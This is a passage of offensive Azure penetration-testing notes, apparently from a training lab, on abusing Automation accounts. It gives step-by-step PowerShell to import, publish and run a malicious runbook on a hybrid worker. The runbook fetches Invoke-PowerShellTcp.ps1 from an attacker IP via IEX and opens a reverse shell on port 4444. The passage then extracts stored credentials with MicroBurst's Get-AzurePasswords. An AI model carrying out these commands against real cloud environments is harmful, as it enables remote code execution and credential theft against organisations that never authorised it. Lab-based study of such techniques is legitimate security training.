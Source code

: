 #### Get the role assigned of the automation accounts

* Check for the Roledefinition

* Get the ID from az automation account list

```powershell
Get-AzRoleAssignment -Scope <ID>
```

#### Check if a hybrid worker is in use by the automation account

```powershell
Get-AzAutomationHybridWorkerGroup -AutomationAccountName <NAME> -ResourceGroupName <NAME>
```

#### Import Powershell runbook

```powershell
Import-AzAutomationRunbook -Name student38 -Path <PATH TO .ps1 FILE> -AutomationAccountName <NAME> -ResourceGroupName <NAME> -Type PowerShell -Force -Verbose
```

#### Contents off studentx.ps1 for reverse shell

```powershell
IEX (New-Object Net.Webclient).downloadstring("http://xx.xx.xx.xx/Invoke-PowerShellTcp.ps1")

reverse -Reverse -IPAddress xx.xx.xx.xx -Port 4444
```

#### Publish the automation runbook to the vm

```powershell
Publish-AzAutomationRunbook -RunbookName <NAME FOR RUNBOOK> -AutomationAccountName <NAME> -ResourceGroupName <NAME> -Verbose
```

#### Start the runbook

```powershell
Start-AzAutomationRunbook -RunbookName <NAME OF RUNBOOK> -RunOn <WORKERGROUP NAME> -AutomationAccountName <NAME> -ResourceGroupName <NAME> -Verbose
```

#### Extract credentials automation account

```powershell
Import-Module Microburst.psm1
Get-AzurePasswords
```

## Command execution on a VM

* Vm access can be found after getting a new user or tokens and seeing that it has access to a vm

### Todo when VM is found
